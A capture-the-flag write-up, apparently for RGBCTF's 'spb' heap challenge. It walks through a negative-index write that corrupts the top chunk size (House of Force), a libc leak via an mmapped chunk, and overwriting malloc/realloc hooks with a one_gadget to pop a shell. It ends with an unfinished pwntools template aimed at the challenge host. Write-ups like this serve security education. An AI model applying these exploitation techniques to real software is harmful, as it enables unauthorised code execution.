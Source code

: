 ```c
00000b97          *(*party + (zx.q(var_18) << 5) + 0x18) = sx.q(var_14)
00000b78      else
00000b78          puts(data_ffd)  {"We don't have that drink."}
```
The get drink function first takes unsigned integer.

And it checks if the input integer is greater or equal to the party size.
If it is then it's terminates the function.
When we get our heap transfered to bss.
There is a topchunk size field on bss.

The else part of this code does is it scans an integer, and checks if it is less than equals to 3.
### We can give negative values here. (;
The later part will write the value we gave to the address of *party + `blablamath`
We can change the top chunk size here By just calculating offset with trial and error.

First i changed the top chunk size to 0.

and allocate a big chunk of size
```py
0x210000
```

The chunk we will recieve will be mmaped chunk. Right before libcbase, ALIGNED.
Selected song contains the address of this mmaped chunk.
We leak libc.
Now we change the Top chunk again to -1.
HOUSE OF FORCE PRIMITIVE AGAIN.

One_gadget constraints weren't matching so,
I change malloc hook (& realloc + 8) and realloc hook to onegaget.

And pop the shell.

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host challenge.rgbsec.xyz --port 6969 ./spb
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./spb')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'challenge.rgbsec.xyz'
port = int(args.PORT or 6969)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

```